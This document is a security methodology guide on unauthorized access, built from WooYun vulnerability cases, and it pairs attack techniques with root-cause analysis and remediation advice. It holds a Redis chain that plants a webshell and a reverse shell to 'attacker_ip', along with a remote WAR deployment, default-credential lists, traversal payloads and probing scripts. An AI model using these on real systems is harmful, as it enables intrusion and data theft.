


# Unauthorized Access Vulnerability Analysis Methodology

> Distilled from 14,377 cases | Data source: WooYun Vulnerability Database (2010-2016)

---

## 1. Core Statistics

| Metric | Value |
|--------|-------|
| Total vulnerabilities | 88,636 |
| Unauthorized access-related | 14,377 (16.2%) |
| In-depth analysis samples | 100 |

---

## 2. Unauthorized Access Type Classification

### 2.1 Backend Unauthorized Access

**Statistics**: 22 typical cases

**Attack Patterns**:

| Pattern Type | Description | Typical Case |
|-------------|-------------|--------------|
| Hardcoded auth bypass | Fixed key/parameter decryption for direct login | Website builder CMS `lstate=515csmxSi1aTO9ysxvJ1Gpmnj7hHuPxjMdfZdEP49lJZ` |
| Weak/default credentials | admin/admin, weblogic/12345678 | Classifieds platform Tomcat `admin:admin123456` |
| Direct path access | Backend URL without authentication | Hobbyist association site `/users/AssociationManage/` |
| Authentication logic flaws | Client-side validation, CAPTCHA bypass | Classifieds platform CAPTCHA client-side refresh allows brute force |

**Typical Bypass Techniques**:

```
# 1. Parameter encryption bypass
/admin/login.asp?lstate={encrypted_true_value}

# 2. Direct path access
/console/login/LoginForm.jsp  (WebLogic)
/manager/html               (Tomcat)
/jmx-console/               (JBoss)

# 3. Base64-encoded directory
/ZmptY2NtYW5hZ2Vy/  (base64-decoded reveals admin path)
```

**Key Insights**:
- Many systems use a unified encryption key, allowing all deployed instances to be bypassed with the same method
- Development framework default configurations commonly have weak credentials
- Internal systems often neglect authentication, relying solely on network isolation

---

### 2.2 API Unauthorized Access

**Statistics**: 7 typical cases

**Attack Vectors**:

| Vector | Description | Example |
|--------|-------------|---------|
| No API authentication | API directly returns sensitive data | Public platform `/api/configs` returns AppID and AppSecret |
| Missing permission checks | Only verifies login, not authorization | Social network photo album API `uid=` parameter is enumerable |
| Sensitive info disclosure | Debug endpoints exposed | `/api/v1/admin_is_login` logic exposed |

**API Probe Payload Examples**:

```bash
# Common sensitive API paths
/api/configs
/api/v1/admin_is_login
/api/users
/api/debug
/swagger-ui.html
/api-docs
/actuator/env
/actuator/health
```

---

### 2.3 Database Service Unauthorized Access

**Statistics**: 5 typical cases

**Common Unauthorized Database Services**:

| Service | Default Port | Severity | Exploitation Method |
|---------|-------------|----------|-------------------|
| MongoDB | 27017 | Critical | Connect without authentication, export all data |
| Redis | 6379 | Critical | Write SSH public keys, write webshells, write cron jobs |
| MySQL | 3306 | High | Empty password or weak password connection |
| Memcached | 11211 | Medium | Data leakage, DDoS amplification |
| Elasticsearch | 9200 | High | Read index data, remote code execution |

**Redis Unauthorized Exploitation Chain**:

```bash
# Connect
redis-cli -h target_ip

# View information
info

# Write SSH public key
config set dir /root/.ssh/
config set dbfilename authorized_keys
set x "\n\nssh-rsa AAAA...\n\n"
save

# Write webshell (requires knowing web directory)
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php system($_GET['c']);?>"
save

# Write cron job
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * bash -i >& /dev/tcp/attacker_ip/port 0>&1\n"
save
```

**MongoDB Unauthorized Probing**:

```bash
# Connection test
mongo target_ip:27017

# List databases
show dbs

# View collections
use database_name
show collections

# Export data
mongoexport -h target_ip -d db_name -c collection -o output.json
```

---

### 2.4 Caching Service Unauthorized Access

**Statistics**: 10 typical cases

| Service | Port | Verification Command | Impact |
|---------|------|---------------------|--------|
| Redis | 6379 | `redis-cli -h IP info` | Data leakage, RCE |
| Memcached | 11211 | `echo "stats" \| nc IP 11211` | Data leakage, DDoS |

---

### 2.5 Middleware Unauthorized Access

**Statistics**: 19 typical cases

**Middleware Vulnerability Matrix**:

| Middleware | Unauthorized Entry Point | Exploitation Method | Typical Vulnerability |
|-----------|------------------------|--------------------|--------------------|
| WebLogic | `/console/` | Deploy WAR packages | CVE-2017-10271, CVE-2019-2725 |
| JBoss | `/jmx-console/` | Remote deployment | JMXInvokerServlet deserialization |
| Tomcat | `/manager/html` | Deploy WAR packages | Weak credentials + upload |
| Resin | `/resin-admin/` | Remote deployment | Misconfiguration |
| Spring Boot | `/actuator/` | Info disclosure/RCE | Heapdump leak, env leak |

**WebLogic Weak Credential List**:

```
weblogic / weblogic
weblogic / weblogic1
weblogic / weblogic123
weblogic / 12345678
system / password
```

**JBoss JMX-Console Exploitation**:

```
1. Access /jmx-console/
2. Find jboss.deployment
3. Deploy remote WAR: http://attacker/shell.war
```

---

### 2.6 DevOps Tool Unauthorized Access

**Statistics**: 2 typical cases

| Tool | Default Port | Risk |
|------|-------------|------|
| Jenkins | 8080 | Script Console RCE |
| Zabbix | 80 | SQL Injection -> Session hijacking |
| Grafana | 3000 | Unauthorized data source access |
| Kibana | 5601 | Data viewing, RCE |

**Jenkins Script Console**:

```groovy
// Groovy code execution
def cmd = "whoami"
println cmd.execute().text
```

---

### 2.7 IoT Device Unauthorized Access

**Statistics**: 7 typical cases

| Device Type | Default Credentials | Impact |
|------------|-------------------|--------|
| IP cameras | admin/admin, admin/12345 | Video surveillance leakage |
| Routers | admin/admin | Network control |
| Printers | Passwordless telnet | Configuration modification |
| Home gateways | telecomadmin/nE7jA%5m | Network takeover |

**Typical Case - Telecom Home Gateway**:
- Default super admin: `telecomadmin/nE7jA%5m`
- Remote port 80 exposed
- Password hardcoded and cannot be changed

---

## 3. Authorization Bypass Methods

### 3.1 Parameter Manipulation

**Statistics**: 8 typical cases

**Technical Details**:

```
# 1. ID enumeration
/user/info?uid=1
/user/info?uid=2
...

# 2. Role tampering
role=user -> role=admin

# 3. Permission flag tampering
isAdmin=0 -> isAdmin=1
```

---

### 3.2 Path Bypass

**Statistics**: 34 typical cases

**Bypass Techniques**:

```
# 1. Directory traversal
../../../etc/passwd
..\..\..\..\windows\system.ini

# 2. URL encoding bypass
%2e%2e%2f  (../)
%252e%252e%252f  (double encoding)

# 3. Null byte truncation
../../../etc/passwd%00.jpg

# 4. Case confusion
/ADMIN/
/Admin/
/aDmIn/
```

---

### 3.3 Authentication Bypass

**Statistics**: 19 typical cases

**Technical Classification**:

| Type | Description | Payload Example |
|------|-------------|----------------|
| Universal password | SQL injection login | `' or 1=1--` |
| Cookie forgery | Modify authentication cookie | `admin=true` |
| JWT bypass | None algorithm/weak key | `alg: none` |
| Session hijacking | Predict/steal session | Direct use after session ID leakage |

---

### 3.4 Session Bypass

**Statistics**: 3 typical cases

**Exploitation Scenarios**:

```
# 1. Session ID leakage (log exposure)
/logs/ctp.log -> Contains session IDs

# 2. Session fixation attack
Force user to use attacker-specified session ID

# 3. Session prediction
Weak sessions generated from timestamps/sequential numbers
```

---

### 3.5 Header Bypass

**Statistics**: 13 typical cases

**Common Bypass Headers**:

```
X-Forwarded-For: [IP redacted]
X-Real-IP: [IP redacted]
X-Originating-IP: [IP redacted]
X-Remote-IP: [IP redacted]
X-Remote-Addr: [IP redacted]
X-Client-IP: [IP redacted]
Host: localhost
Referer: https://example.com/[redacted]
```

---

## 4. IDOR Vulnerabilities

### 4.1 Horizontal Privilege Escalation (IDOR)

**Statistics**: 4 typical cases

**Characteristics**: Cross-access of data between users at the same privilege level

**Case Analysis**:

| Case | Vulnerability Point | Impact |
|------|-------------------|--------|
| Insurance platform | `/personal/center/family/{id}/edit` | Hundreds of thousands of insured persons' data leaked |
| Livestreaming platform | Room ID is replaceable | Modify other users' livestream information |
| Dating app | uid parameter is tamperable | Modify any user's profile statement |

**Testing Method**:

```
1. Record ID parameters in normal requests
2. Replace with another user's ID
3. Observe whether the response returns other user's data
4. Automated enumeration (Burp Intruder)
```

---

### 4.2 ID Enumeration

**Statistics**: 27 typical cases

**Enumeration Techniques**:

```python
# Automated ID enumeration script
import requests

for user_id in range(1, 10000):
    url = f"http://target/api/user/{user_id}"
    resp = requests.get(url)
    if resp.status_code == 200:
        print(f"Found: {user_id} - {resp.text[:100]}")
```

**Typical Cases**:

| System | Enumeration Point | Data Volume |
|--------|------------------|-------------|
| Express delivery company | Order ID | Large volume of orders since 2010 |
| Car rental service | Invoice ID | 190,000 records |
| State enterprise OA | Employee ID | Large volume of employee information |

---

## 5. Common Unauthorized Services

### 5.1 Service Statistics

| Service | Case Count | Port | Risk Level |
|---------|-----------|------|-----------|
| WebLogic | 10 | 7001 | Critical |
| JBoss | 7 | 8080 | Critical |
| Redis | 5 | 6379 | Critical |
| MySQL | 5 | 3306 | High |
| rsync | 5 | 873 | High |
| MongoDB | 4 | 27017 | Critical |
| Spring Actuator | 2 | 8080 | High |
| Zabbix | 2 | 80 | Medium |

### 5.2 Service Identification Fingerprints

```bash
# Redis
redis-cli -h IP info

# MongoDB
mongo IP:27017 --eval "db.version()"

# Elasticsearch
curl http://IP:9200

# rsync
rsync IP::

# Memcached
echo "stats" | nc IP 11211

# ZooKeeper
echo "stat" | nc IP 2181

# Docker Remote API
curl http://IP:2375/info
```

### 5.3 rsync Unauthorized Exploitation

**Cases**: Social platform, tech media site

```bash
# List modules
rsync target_ip::

# Download files
rsync -avz target_ip::module_name ./local_dir

# Upload files (if write permission exists)
rsync -avz ./local_file target_ip::module_name/
```

**Impact**: Full site source code leakage, configuration file leakage, sensitive information exposure

---

## 6. Directory Traversal Techniques

**Statistics**: 35 typical cases

### 6.1 Basic Payloads

```
# Linux
../../../etc/passwd
../../../etc/shadow
../../../root/.bash_history
../../../proc/self/environ

# Windows
..\..\..\..\windows\system.ini
..\..\..\..\windows\win.ini
..\..\..\..\boot.ini
```

### 6.2 Encoding Bypass

```
# URL encoding
%2e%2e%2f = ../
%2e%2e/ = ../
..%2f = ../
%2e%2e%5c = ..\

# Double encoding
%252e%252e%252f = ../

# UTF-8 encoding
..%c0%af = ../
..%c1%9c = ..\

# Null byte truncation
../../../etc/passwd%00.jpg
```

### 6.3 Typical Cases

| Case | Payload | Result |
|------|---------|--------|
| Cloud data platform | `?urlParam=../../../WEB-INF/web.xml%3f` | Configuration file disclosure |
| Appliance manufacturer | `upload.aspx?id=8&dir=../../../../` | Directory browsing + arbitrary deletion |
| Government website | `down.php?dd=../down.php` | Source code download |
| Social platform | `curl IP:8888/../../../etc/shadow` | System file read |

### 6.4 Automated Testing

```bash
# Using dotdotpwn
dotdotpwn -m http -h target -x 8080 -f /etc/passwd

# Using wfuzz
wfuzz -c -z file,traversal.txt --hc 404 http://target/download.php?file=FUZZ
```

---

## 7. Meta-Analysis Methodology

### 7.1 Unauthorized Access Detection Flow

```
1. Information Gathering
   +-- Port scanning (nmap)
   +-- Service identification (fingerprinting)
   +-- Path enumeration (dirsearch)

2. Service Probing
   +-- Database services (6379, 27017, 3306, 9200)
   +-- Middleware admin consoles (7001, 8080)
   +-- Monitoring services (3000, 5601)
   +-- File services (873, 21)

3. Authentication Testing
   +-- Default credential attempts
   +-- Weak password brute forcing
   +-- Authentication bypass testing

4. Authorization Verification
   +-- Vertical Privilege Escalation (regular user -> admin)
   +-- Horizontal Privilege Escalation (IDOR) (user A -> user B)
   +-- API authorization checks

5. Exploitation
   +-- Data exfiltration
   +-- Privilege escalation
   +-- Lateral movement
```

### 7.2 Key Insights

1. **Architecture level**: Internal services exposed to the public internet is the primary cause of unauthorized access
2. **Configuration level**: Default configurations and weak credentials are the most common attack entry points
3. **Development level**: Authorization checks only on the frontend or only verifying login status
4. **Operations level**: Debug interfaces and management consoles left open or without ACLs

### 7.3 Remediation Recommendations

| Level | Measure |
|-------|---------|
| Network | Do not expose internal services to the public internet; use VPN/bastion hosts |
| Authentication | Enforce complex passwords, disable default accounts, enable MFA |
| Authorization | Server-side permission checks, principle of least privilege |
| Monitoring | Anomalous access alerts, log auditing |
| Hardening | Disable unnecessary management interfaces, regular security assessments |

---

## 8. Quick Reference Card

### 8.1 Common Unauthorized Service Detection Commands

```bash
# Batch scan common unauthorized access ports
nmap -sV -p 6379,27017,9200,11211,2181,2379,873,21 target

# Redis
redis-cli -h target info

# MongoDB
mongo target:27017 --eval "db.adminCommand('listDatabases')"

# Elasticsearch
curl -s http://target:9200/_cat/indices

# rsync
rsync --list-only rsync://target/

# Docker
curl http://target:2375/containers/json
```

### 8.2 Web Middleware Default Paths

```
# Tomcat
/manager/html
/manager/status
/host-manager/html

# WebLogic
/console/
/wls-wsat/

# JBoss
/jmx-console/
/web-console/
/invoker/JMXInvokerServlet

# Spring Boot Actuator
/actuator/env
/actuator/health
/actuator/heapdump
/actuator/mappings
```

---

## 9. Case Study Analysis

### 9.1 Case Background

**Vulnerability ID**: wooyun-2015-0108547
**Vulnerability Title**: Monitoring Device Unauthorized Access
**Vulnerability Type**: Unauthorized Access / Authorization Bypass
**Severity**: High
**Details**: Direct access to backend management page without authentication required
**Exploitation**: Access `/admin/index.jsp` to directly enter the admin backend

### 9.2 Root Cause Analysis

#### 9.2.1 Why Does Unauthorized Access Exist? (Root Cause Analysis)

From a **strategic analysis** perspective, root cause analysis should be performed across three levels: system design, implementation, and deployment:

**Layer 1: Design Flaws**
- **Blurred trust boundaries**: Monitoring devices are typically deployed in internal networks; designers incorrectly assume "internal network = security zone"
- **Missing security model**: No complete authentication and authorization system established; relies on network isolation rather than application-layer security
- **Insufficient threat modeling**: Does not consider internal attacks or scenarios where network boundaries are breached

**Layer 2: Implementation Errors**
```
Typical code pattern with missing authentication checks:

# Incorrect: No authentication check
@app.route('/admin/index.jsp')
def admin_panel():
    return render_template('admin.html')  # Returns admin interface directly

# Correct: Should have authentication decorators
@app.route('/admin/index.jsp')
@login_required
@admin_required
def admin_panel():
    return render_template('admin.html')
```

**Layer 3: Deployment Configuration Errors**
- **Insecure default configuration**: Device ships with admin backend requiring no authentication, relying on "post-deployment configuration"
- **Configuration oversight**: Operations personnel fail to enable authentication mechanisms or modify default configurations
- **Missing documentation**: Vendor does not provide security configuration guides

#### 9.2.2 Root Cause Analysis: Systemic Security Issues

**Core Insight**: This is not simply a "forgot to add a password" issue, but reflects a systemic security dilemma in the IoT device industry:

1. **Cost-Driven vs. Security-Driven**
   - IoT device manufacturers pursue minimal cost
   - Security features are viewed as "unnecessary" additional costs
   - Authentication modules increase hardware overhead (CPU/RAM) and development costs

2. **Usability Prioritized Over Security**
   - Devices need rapid debugging during deployment; "no login required" improves deployment efficiency
   - Security mechanisms are forgotten after deployment
   - Creates the "development convenience = production insecurity" paradox

3. **Long-Tail Vulnerability Management Challenge**
   - Once deployed, monitoring device firmware updates are extremely difficult
   - Vulnerability exposure periods span years (2015 vulnerabilities may still exist in 2020)
   - Cannot iterate and fix as quickly as web applications

4. **Attack Surface Exposed to Public Internet**
   - As IoT proliferates, more devices are directly exposed to the internet (for remote management)
   - Search engines like Shodan can easily discover unauthorized devices
   - Creates an asymmetric situation of "low attack cost, high defense cost"

### 9.3 Monitoring Device Unauthorized Access Attack Surface Matrix

| Attack Vector | Default Path | Typical Impact | Detection Method |
|--------------|-------------|----------------|-----------------|
| Admin backend | `/admin/index.jsp` | Full device control | Direct access |
| Video stream | `/mjpg/video.mjpg` | Surveillance video leakage | Open with VLC player |
| Configuration file | `/config.ini` | Credential disclosure | curl download |
| Log files | `/logs/` | Internal information leakage | Path traversal |
| Firmware download | `/firmware/` | Firmware reverse engineering | Directory enumeration |
| RTSP stream | `rtsp://ip:554/stream` | Real-time video leakage | ffplay playback |

### 9.4 Testing Methodology

#### 9.4.1 Monitoring Device Unauthorized Access Detection Flow



#### 9.4.2 Automated Detection Script

```python
#!/usr/bin/env python3
"""
Monitoring device unauthorized access detection tool
"""
import requests
from urllib.parse import urljoin

class MonitorDeviceDetector:
    def __init__(self, target_ip):
        self.target_ip = target_ip
        self.results = []

    # Common monitoring device admin path dictionary
    ADMIN_PATHS = [
        '/admin/index.jsp',      # Path from this case
        '/admin/index.html',
        '/admin/login.html',
        '/admin.asp',
        '/admin.php',
        '/admin/index.php',
        '/manager/html',
        '/webui/',
        '/index.html',
        '/login.jsp',
        '/DCS/view/index.html',  # D-Link
        '/index.htm',            # Vivotek
        '/cgi-bin/view/video.cgi', # Many brands
    ]

    # RTSP default paths
    RTSP_PATHS = [
        'rtsp://{ip}:554/stream1',
        'rtsp://{ip}:554/stream',
        'rtsp://{ip}:554/live',
        'rtsp://{ip}:554/h264',
        'rtsp://{ip}:554/mpeg4',
    ]

    # Common default credentials
    DEFAULT_CREDS = [
        ('admin', 'admin'),
        ('admin', '123456'),
        ('admin', '12345678'),
        ('admin', 'password'),
        ('admin', ''),
        ('root', 'admin'),
        ('root', '123456'),
        ('guest', 'guest'),
    ]

    def check_admin_pages(self):
        """Detect admin page unauthorized access"""
        print(f"[*] Checking admin page paths: {self.target_ip}")

        for path in self.ADMIN_PATHS:
            url = f"http://{self.target_ip}{path}"
            try:
                resp = requests.get(url, timeout=5, verify=False)

                # Determine unauthorized access
                if resp.status_code == 200 and 'login' not in resp.url.lower():
                    self.results.append({
                        'type': 'admin_unauth',
                        'url': url,
                        'status': 'unauthorized_access',
                        'evidence': f'Direct access without authentication: {path}'
                    })
                    print(f"[+] Unauthorized admin interface found: {url}")

                # Check if it is a login page (potential brute force target)
                elif 'login' in resp.text.lower():
                    self.results.append({
                        'type': 'login_page',
                        'url': url,
                        'status': 'brute_force_candidate',
                        'evidence': f'Login page found: {path}'
                    })
                    print(f"[*] Login page found: {url}")

            except Exception as e:
                pass

    def check_default_credentials(self, login_url):
        """Test default credentials"""
        print(f"[*] Testing default credentials: {login_url}")

        for username, password in self.DEFAULT_CREDS:
            # POST parameters need to be adjusted based on specific form structure
            try:
                session = requests.Session()
                resp = session.post(login_url, data={
                    'username': username,
                    'password': password
                }, timeout=5)

                if 'dashboard' in resp.url or 'admin' in resp.url:
                    self.results.append({
                        'type': 'weak_password',
                        'url': login_url,
                        'cred': f'{username}:{password}',
                        'status': 'default_creds_working'
                    })
                    print(f"[+] Default credentials valid: {username}:{password}")
                    return True

            except Exception:
                pass

        return False

    def check_rtsp_streams(self):
        """Detect unauthorized RTSP streams"""
        print(f"[*] Checking RTSP streams: {self.target_ip}")

        # Use ffplay or vlc for testing
        for stream_path in self.RTSP_PATHS:
            stream_url = stream_path.format(ip=self.target_ip)

            # Use curl to test connectivity (without actual playback)
            import subprocess
            try:
                result = subprocess.run(
                    ['curl', '-s', '--connect-timeout', '3', stream_url],
                    capture_output=True,
                    timeout=5
                )

                if result.returncode == 0:
                    self.results.append({
                        'type': 'rtsp_unauth',
                        'url': stream_url,
                        'status': 'rtsp_stream_accessible'
                    })
                    print(f"[+] Unauthorized RTSP stream: {stream_url}")

            except Exception:
                pass

    def run_full_test(self):
        """Execute full detection"""
        print(f"[*] Starting monitoring device detection: {self.target_ip}")
        print("=" * 60)

        # 1. Check admin pages
        self.check_admin_pages()

        # 2. Check RTSP streams
        self.check_rtsp_streams()

        # 3. Generate report
        print("\n" + "=" * 60)
        print(f"[*] Detection complete, {len(self.results)} issues found")
        print("=" * 60)

        return self.results


# Usage example
if __name__ == '__main__':
    import sys

    if len(sys.argv) < 2:
        print("Usage: python3 monitor_device_detector.py <target_ip>")
        sys.exit(1)

    target = sys.argv[1]
    detector = MonitorDeviceDetector(target)
    results = detector.run_full_test()

    # Output JSON report
    import json
    print("\n[JSON Report]")
    print(json.dumps(results, indent=2, ensure_ascii=False))
```

### 9.5 Monitoring Device Exploitation Chain



### 9.6 Defense System Recommendations

#### 9.6.1 Short-Term Emergency Measures

```bash
# 1. Network isolation
iptables -A INPUT -p tcp --dport 80 -j DROP  # Block public access
iptables -A INPUT -s [IP redacted] -p tcp --dport 80 -j ACCEPT  # Internal only

# 2. Enable authentication (if device supports it)
# Login to admin interface -> System Settings -> Security -> Enable password authentication

# 3. Change default ports
# 80 -> 8080 or other non-standard ports
```

#### 9.6.2 Long-Term Architecture Plan

| Level | Measure | Priority |
|-------|---------|----------|
| Network | Deploy in isolated VLAN, prohibit direct public internet access | P0 |
| Access Control | Access via VPN/bastion host | P0 |
| Device Hardening | Force enable authentication, change default passwords | P1 |
| Monitoring | Deploy network traffic monitoring, anomalous access alerts | P1 |
| Updates | Establish firmware update mechanism, apply patches promptly | P2 |
| Replacement | Gradually replace legacy devices with no security design | P2 |

### 9.7 Real-World Impact Assessment

**Data Source**: Based on Shodan search engine statistics

```
# Query for unauthorized monitoring devices
Keywords: "title:Live view" "title:Network Camera"
Results: Approximately 1,200,000 devices exposed globally

Regional distribution:
- China: 250,000+
- United States: 180,000+
- Europe: 150,000+

Security concerns:
1. Residential privacy leakage (home surveillance publicly broadcast)
2. Corporate trade secret leakage (factory, office surveillance)
3. Public safety risks (school, hospital surveillance)
4. Used as DDoS attack botnet nodes
```

### 9.8 Extended Analysis: Structural Challenges of IoT Security

From a **system architecture** perspective, monitoring device unauthorized access reflects deeper industry issues:

**Challenge 1: Broken Security Responsibility Chain**
```
Chip Manufacturer -> Device Maker -> System Integrator -> End User
       |                 |                 |                |
  Not concerned    Does not want to   Does not know    Unaware
                      manage            how to manage
```

**Challenge 2: Accumulated Technical Debt**
- Legacy device architectures cannot add security features through firmware updates
- New devices inherit insecure designs for backward compatibility with old protocols
- Creates "path dependency," making thorough restructuring difficult

**Challenge 3: Security Economics Failure**
- Attackers benefit greatly (mass device control for botnets)
- Defenders face high costs (need to update devices one by one)
- Market lacks a "security premium" mechanism; users are unwilling to pay for security

**Strategic Recommendations**:
1. **Regulatory level**: Mandatory security certification standards, similar to CE/FCC certification
2. **Industry level**: Establish security disclosure mechanisms and rapid response alliances
3. **Technical level**: Design zero-trust architecture; devices require authentication from factory
4. **Market level**: Insurance industry introduces cybersecurity insurance to incentivize security investment

---

*Document version: 1.1*
*Last updated: 2026-01-23*
*New content: Monitoring device unauthorized access case analysis*
*Data source: WooYun vulnerability database + Shodan statistics*
